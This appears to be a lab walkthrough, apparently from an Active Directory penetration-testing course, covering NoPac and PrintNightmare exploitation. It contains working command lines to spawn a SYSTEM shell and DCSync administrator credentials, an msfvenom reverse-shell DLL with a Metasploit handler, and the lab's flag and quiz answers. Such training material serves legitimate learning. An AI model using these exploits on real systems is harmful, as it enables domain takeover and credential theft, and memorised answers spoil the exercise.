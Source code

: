 <div align='center'>

# **Lab 19: Bleeding Edge Vulnerabilities** 

</div>

## **CVE-2021-42278&CVE-2021-42287: NoPac (SamAccountName Spoofing)**

**Question:** Which two CVE's indicate NoPac.py may work? (Format: ####-#####&####-#####, no spaces)
- **Answer:** 2021-42278&2021-42287

![](../imgs/Lab/Lab19/2.png)

**Scanning for NoPac**

We can use the scanner with a standard domain user account to attempt to obtain a TGT from the target Domain Controller. If successful, this indicates the system is, in fact, vulnerable

```zsh
python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

![](../imgs/Lab/Lab19/1.png)

**Running NoPac & Getting a Shell**

Obtain a shell with SYSTEM level privileges

```zsh
python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

![](../imgs/Lab/Lab19/3.png)

NoPac.py does save the TGT in the directory on the attack host where the exploit was run.

![](../imgs/Lab/Lab19/4.png)

We could then use the ccache file to perform a pass-the-ticket and perform further attacks such as DCSync

**Using noPac to DCSync the Built-in Administrator Account**

```zsh
python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

![](../imgs/Lab/Lab19/5.png)

## **CVE-2021-34527&CVE-2021-1675: PrintNightmare**

**Enumerating for MS-RPRN**

```zsh
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

![](../imgs/Lab/Lab19/6.png)

**Generating a DLL Payload using Metasploit**

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

Save the DLL payload to the `/tmp/` directory on the attack host

![](../imgs/Lab/Lab19/7.png)

**Editing smb config file**

Edit the `/etc/samba/smb.conf` file to include the following lines:

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = nobody
```

![](../imgs/Lab/Lab19/8.png)

Start the smbd service

```zsh
sudo service smbd start
```

**Configuring & Starting MSF multi/handler (msfconsole)**

```zsh
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run
```

![](../imgs/Lab/Lab19/9.png)

**Running the exploit**

```zsh
python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\smb\backupscript.dll'
```

![](../imgs/Lab/Lab19/10.png)

**Getting the SYSTEM Shell**

![](../imgs/Lab/Lab19/11.png)

**Question:** Apply what was taught in this section to gain a shell on DC01. Submit the contents of flag.txt located in the DailyTasks directory on the Administrator's desktop.

```powershell
cd C:\Users\Administrator\Desktop\DailyTasks
type flag.txt
```

![](../imgs/Lab/Lab19/12.png)

- **Answer:** D0ntSl@ckonN0P@c!

![](../imgs/Lab/Lab19/13.png)
